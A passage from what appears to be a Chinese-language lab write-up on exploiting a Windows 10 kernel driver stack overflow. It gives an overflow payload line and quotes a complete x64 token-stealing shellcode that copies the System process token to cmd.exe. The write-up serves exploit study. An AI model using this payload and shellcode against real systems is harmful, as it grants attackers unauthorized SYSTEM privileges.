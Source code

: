 那么就是

```bash
"a"*0x810+p64(shellcode_addr)
```

## Shellcode+exp 编写

### A. shellcode

主要是用这篇：[Exploiting Windows 10 Kernel Drivers - Stack Overflow](https://blog.xpnsec.com/hevd-stack-overflow/) 或者里面参考的两篇

主要目的就是拿去 Token 然后替换掉一个 cmd.exe 的 Token 实现提权，**在下一篇文章中会详细提到**

> This time around we will pass the PID into the shellcode, which means that our tweaked shellcode will look like this:
> 
> ```bash
> [BITS 64]
> 
> push rax
> push rbx
> push rcx
> push rsi
> push rdi
> 
> mov rax, [gs:0x180 + 0x8]   ; Get 'CurrentThread' from KPRCB
> 
> mov rax, [rax + 0x220]       ; Get 'Process' property from current thread
> 
> next_process:
> cmp dword [rax + 0x2e0], 0x41414141  ; Search for 'cmd.exe' process ('AAAA' replaced by exploit)
> je found_cmd_process
> mov rax, [rax + 0x2e8]            ; If not found, go to next process
> sub rax, 0x2e8
> jmp next_process
> 
> found_cmd_process:
> mov rbx, rax                     ; Save our cmd.exe EPROCESS for later
> 
> find_system_process:
> cmp dword [rax + 0x2e0], 0x00000004  ; Search for PID 4 (System process)
> je found_system_process
> mov rax, [rax + 0x2e8]
> sub rax, 0x2e8
> jmp find_system_process
> 
> found_system_process:
> mov rcx, [rax + 0x358]            ; Take TOKEN from System process
> mov [rbx+0x358], rcx              ; And copy it to the cmd.exe process
> 
> pop rdi
> pop rsi
> pop rcx
> pop rbx
> pop rax
> 
> ; return goes here
> ```

